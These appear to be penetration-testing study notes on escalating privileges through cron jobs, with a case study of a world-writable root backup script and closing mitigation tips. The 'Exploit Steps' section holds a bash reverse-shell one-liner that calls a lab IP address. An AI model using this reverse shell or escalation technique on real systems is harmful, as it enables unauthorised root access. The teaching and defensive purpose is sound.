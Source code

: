 
### **What is a Cron Job?**

- A _cron job_ is a scheduled task run by the `cron` daemon
- Cron jobs are defined using `crontab` and stored in `/var/spool/cron`
- Entry format:
```sql
* * * * * command_to_execute
┬ ┬ ┬ ┬ ┬
│ │ │ │ │
│ │ │ │ └─ day of week (0 - 7) (Sunday is both 0 and 7)
│ │ │ └─── month (1 - 12)
│ │ └───── day of month (1 - 31)
│ └─────── hour (0 - 23)
└───────── minute (0 - 59)
```


---

### **Abusing Cron Jobs**

- Cron jobs running as **root** can be abused if:
    - They call **world-writable scripts**
    - Cron jobs/scripts are **misconfigured**

- Attackers can append _malicious commands_ (e.g., reverse shells) to scripts that are executed on a schedule

---

### **Discovery Techniques**

- Find writable files:
```bash
find / -type f -perm -o+w 2>/dev/null
```

- Check for _frequent file creation_ (e.g., `.tgz` every 3 mins indicates `*/3 * * * *`)
- Analyze `/etc/cron.d`, `/etc/cron.daily`, `/var/spool/cron` for jobs
- Use `pspy` to monitor scheduled jobs in real-time (no root required)

---

### **Case Study: Abusing `backup.sh`**

- `backup.sh` located in `/dmz-backups/` is:
    - Owned by root
    - World-writable
    - Called by a cron job every 3 minutes
- Script:
```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

---

### **Exploit Steps**

1. Append reverse shell to script:
```bash
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```

2. Set up listener:
3. Wait for cron job to trigger — shell is returned as **root**

---

### **Monitoring with `pspy`**

- Run with:
```bash
./pspy64 -pf -i 1000
```

- Observe cron job execution:
```bash
/bin/bash /dmz-backups/backup.sh
tar --absolute-names ...
```

---

### **Mitigation Tips**

- Never make scripts world-writable
- Restrict cron job ownership and execution permissions
- Audit all files executed by root cron jobs
- Validate and correct cron job timing (`*/3 * * * *` vs. `0 */3 * * *`)

